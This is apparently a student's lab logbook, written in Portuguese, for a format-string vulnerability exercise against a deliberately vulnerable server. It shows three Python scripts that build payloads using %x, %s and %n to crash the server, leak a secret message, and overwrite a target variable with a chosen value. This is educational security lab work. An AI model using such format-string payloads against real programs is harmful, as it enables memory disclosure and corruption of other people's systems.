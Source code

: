# LOGBOOK 7

## Tarefa 1

Nesta tarefa tinhamos como objetivo causar o crash do servidor.

**Código injetado para o servidor.**<br>
![image 1](docs/images/Captura_de_ecr%C3%A3_2023-11-17_180216.png)

**Servidor sem crash, ou seja, aparece:**<br>
`(^_^)(^_^)  Returned properly (^_^)(^_^)`

![image 2](docs/images/Captura_de_ecr%C3%A3_2023-11-17_175035.png)

**Código injetado que causa crash do servidor.**<br>
![image 3](docs/images/Captura_de_ecr%C3%A3_2023-11-17_180241.png)

**Servidor com crash, ou seja, não aparece:**<br>
`(^_^)(^_^)  Returned properly (^_^)(^_^)`<br>

![image 4](docs/images/Captura_de_ecr%C3%A3_2023-11-17_180302.png)

## Tarefa 2.A

Nesta tarefa tinhamos de descubrir quantos %x eram necessários para fazer print dos 4 primeiros bytes do input. Escolhemos `@@@@`, pois podemos identificá-lo facilmente por `0x40404040`.

**Código que injetamos, com 64 vezes `%x`.**<br>
![image 5](docs/images/Captura_de_ecr%C3%A3_2023-11-17_184517.png)

**Servidor com `0x40404040`.**<br>
![image 6](docs/images/Captura_de_ecr%C3%A3_2023-11-17_184539.png)

## Tarefa 2.B

Nesta tarefa tinhamos de usar o conhecimento obtido na tarefa 2.A para obter uma mensagem secreta do servidor.
Para isso, modificámos o *build_string.py* que nos foi disponibilizada.

***build_string.py* usada.**<br>
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
#content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
**Servidor com a mensagem secreta.**<br>
![image 7](docs/images/Captura_de_ecr%C3%A3_2023-11-17_191650.png)

## Tarefa 3.A

Nesta tarefa tinhamos como objetivo alterar o `target` para qualquer valor. Para esse fim usamos `%n`.

***build_string.py* usada.**<br>
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
#content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

**Servidor com o `target` alterado.**<br>
![image 8](docs/images/Captura_de_ecr%C3%A3_2023-11-17_194820.png)

## Tarefa 3.B

Nesta tarefa tinhamos como objetivo alterar o valor do `target`para `0x5000`. Como `0x5000` em decimal é `20480` acrescentámos `19980` bytes antes do `%n` na forma de `%x`.

***build_string.py* usada.**<br>
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
#content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*62 + "%19980x" + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

**Servidor com o `target` alterado para `0x5000`.**<br>
![image 9](docs/images/Captura_de_ecr%C3%A3_2023-11-17_195730.png)
